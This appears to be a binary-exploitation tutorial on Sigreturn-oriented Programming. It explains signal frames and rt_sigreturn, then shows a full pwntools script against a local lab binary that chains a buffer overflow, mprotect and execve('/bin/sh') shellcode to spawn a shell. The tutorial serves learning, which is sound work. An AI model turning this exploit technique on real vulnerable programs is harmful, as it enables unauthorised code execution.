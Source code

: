 # Sigreturn-oriented Programming (SROP)

This is a technique which can be used when there are few or not particularly useful gadgets. It requires only 2 gadgets: a way to manipulate `rax` and a `syscall`. The trade-off, however, is that it requires a bigger overflow depending on what you want to achieve.

When a signal occurs in Linux, the kernel stores the state of the process by constructing a _Signal Frame_ on the stack. Once the signal has been processed, the `rt_sigreturn` syscall is envoked to restore the process's state from the stack. `rt_sigreturn`, however, does not check whether or not the state it is restoring from the stack is the same as the state that the kernel pushed onto it. Usually, this is not a problem because `rt_sigreturn` is never called without a signal having been processed - the syscall for it in libc is actually defined to just return an error code. Interestingly enough, there are also no protection mechanism to ensure that `rt_sigreturn` is called only after a signal has been processed which means that nothing is stopping an adversary from calling it and modifying the process's state by manipulating what is on the stack.

### The Signal Frame

The signal frame represents the state of a process which is backed up onto the stack when a signal needs to be handled and has the following format:

![](<Resources/Images/ROP/Signal Frame.svg>)

When `rt_sigreturn` is invoked, the top 248 bytes of the stack will be restored into the above locations.

### The Exploit

Consider the following programme:

![](<Resources/Images/ROP/checksec srop.png>)

![](<Resources/Images/ROP/Sigreturn Programme.png>)

The highlighted code allows an adversary to read 768 bytes into a buffer of size only 32, which results in a buffer overflow. In order to trigger the buffer overflow, we can inspect the code and calculate (alternatively you can fuzz the programme) the number of padding bytes which we will need - this turns out to be 40. Since the NX is enabled, we will need to build a ROP chain. Unfortunately, there is a little snag - there are barely any gadgets available.

![](<Resources/Images/ROP/SROP Gadgets.png>)

So we will have to be more sophisticated and use Sigreturn-oriented programming. We see that there is a readily-available `syscall` gadget, but there is no straightforward way to manipulate the `rax` registered which is needed for issuing syscalls.

Upon further inspection, the `loc.write` procedure invokes `sys_write` which is lucky for us because if `sys_write` is successful, it returns the number of characters written in `rax`. Now that we know how to manipulate `rax`, we turn our attention to the construction of our ROP chain.

The ROP chain begins by invoking `loc.vuln` again, so that it may in turn invoke `loc.write`. Once `loc.vuln` is called, the programme will ask us for input. We need to send 14 characters (the 15-th being the  at the end) to it, so that `loc.write` can then print those 15 characters and set `rax` equal to 15 as a result. Once these characters have been written, `loc.vuln` will return execution to our ROP chain. Since `rax` now contains the syscall number of `rt_sigreturn`, namely 15, the next instruction in the ROP chain should be `syscall`.

`rt_sigreturn` will take the top 248 bytes of the stack and attempt to restore the state of the process from them. This means that all registers will be overwritten with values from the stack. Since we control what is on the stack via the buffer overflow, we also control what gets put into those registers. Therefore, the payload for the ROP chain should also contain an artificial signal frame after the `syscall` instruction, which will be the top of the stack.

From here on, all that is left is figuring out a quick way to get a shell. I have opted for some shellcode which invokes `execve` with `"/bin/sh"`. To do this we need to use `sys_mprotect` to change the permissions of a memory region to read-write-execute. Therefore, the registers inside our malicious signal frame should contain the following values:

* `rax` - `0xA` (the number for the `sys_mprotect` system call)
* `rdi` - the beginning of the memory region whose permissions we want to change
* `rsi` - the size of the memory region
* `rdx` - `0x7` (RWX permissions)
* `rip` - the address of the `syscall` gadget

Now, it would have been nice if we had a way to preserve the value of the stack pointer, but that is not possible. Since we are forced to overwrite it, however, we might as well make do with what we can. We have no way of referring to the stack prior to `rt_sigreturn`, so we will just invent a new one!

In order to achieve this, we need to find a location in memory which contains the address of `loc.vuln`, even if it does so only coincidentally. The reason for this is that, after `rt_sigreturn` finishes, `rip` will be set to the `syscall` gadget which will execute `sys_mprotect`. The instruction after the syscall is a `ret` which means that the value of the location pointed to by `rsp` will be copied to `rip`, and we want it to then proceed again with the execution of `loc.vuln`. Hence why `rsp` should contain a _pointer_ to the address of `loc.vuln`.

Now that memory is executable, we proceed by exploiting `loc.vuln` yet another time in order to execute the shellcode which spawns a shell.

![](<Resources/Images/ROP/Sigreturn Exploit.svg>)

With this information we can construct an exploit using pwntools:

```python
from pwn import *

context.clear(arch='amd64')

p = process("./srop")

syscall_address = 0x401014 # &syscall
sigreturn_number = 0xF
mprotect_number = 0xA
mprotect_permissions = 0x7

vuln_address = 0x40102e # &loc.vuln()
pointer_to_vuln_address = 0x4010d8 # &&loc.vuln() - using a debugger, I found that this location contains 0x40102e at runtime

padding = b'A' * 40

signal_frame = SigreturnFrame(kernel="amd64")
signal_frame.rax = mprotect_number
# It does not matter what memory we make RWX, but for simplicity, we are just going to make a huge chunk from the beginning of the binary executable. We just need to make sure that the new stack will be contained in it.
signal_frame.rdi = 0x400000 # Beginning of the memory block (in this case, the binary)
signal_frame.rsi = 0x10000 # Size of the memory block
signal_frame.rdx = mprotect_permissions
signal_frame.rip = syscall_address # This will proceed to execute sys_mprotect
signal_frame.rsp = pointer_to_vuln_address # Beginning of the new stack

payload = padding + p64(vuln_address) + p64(syscall_address) + bytes(signal_frame)
p.sendline(payload)
p.recv()

# Send 15 characters (14*'A' + '\n')
p.sendline(b'A' * (sigreturn_number - 1))
p.recv()

# Remove the comments in the assembly in order for it to compile
shellcode = asm("""
mov rdi, 0x68732f6e69622f ; '/bin/sh\x00' in little-endian
push rdi
mov rdi, rsp
mov rax, 0x3b ; execve syscall number
xor rsi, rsi
xor rdx, rdx
syscall
""", arch="amd64")

# The stack pointer will be moved 40 bytes down and the padding will take those 40 bytes, reaching pointer_to_vuln_address. We then add 1 byte for the value contained at pointer_to_vuln_address itself and then add 1 more byte to make room for the actual shellcode_address.
shellcode_address = pointer_to_vuln_address + 0x10

payload = b'A'*40 + p64(shellcode_address) + shellcode
p.sendline(payload)

p.interactive()
```

![](<Resources/Images/ROP/Sigreturn shell.png>)
